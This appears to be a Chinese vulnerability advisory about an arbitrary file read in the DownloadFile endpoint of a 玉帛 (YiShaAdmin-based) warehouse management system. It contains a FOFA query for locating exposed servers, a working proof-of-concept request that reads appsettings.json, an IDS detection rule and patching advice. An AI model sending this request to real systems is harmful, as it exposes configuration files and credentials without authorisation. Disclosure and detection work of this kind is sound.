

# 玉帛软件仓库管理系统-DownloadFile-任意文件读取

玉帛软件仓库管理系统-DownloadFile-任意文件读取

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  icon_hash=-16307381 && product="YiShaAdmin"

**POC/EXP：**

**step1**  任意文件读取

```
GET /File/DownloadFile?filePath=appsettings.json&delete=0 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"玉帛软件仓库管理系统 - DownloadFile 任意文件读取漏洞 (filePath参数)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/File/DownloadFile"; fast_pattern;
        content:"filePath="; nocase; distance:0;
        content:"appsettings.json"; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "玉帛软件仓库管理系统",
        vulnerability_type "Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000823;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
